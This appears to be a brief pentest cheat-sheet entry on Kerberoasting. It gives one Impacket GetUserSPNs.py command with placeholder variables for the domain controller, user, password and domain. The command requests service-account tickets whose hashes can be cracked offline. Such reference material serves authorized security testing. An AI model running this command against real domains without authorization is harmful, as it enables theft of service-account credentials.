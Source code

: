 # Kerberos

## Find SPN that are associated with a normal user account (Kerberoast) 

```
GetUserSPNs.py -request -dc-ip <domain-controller> <domain>/<user>:'<password>'
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
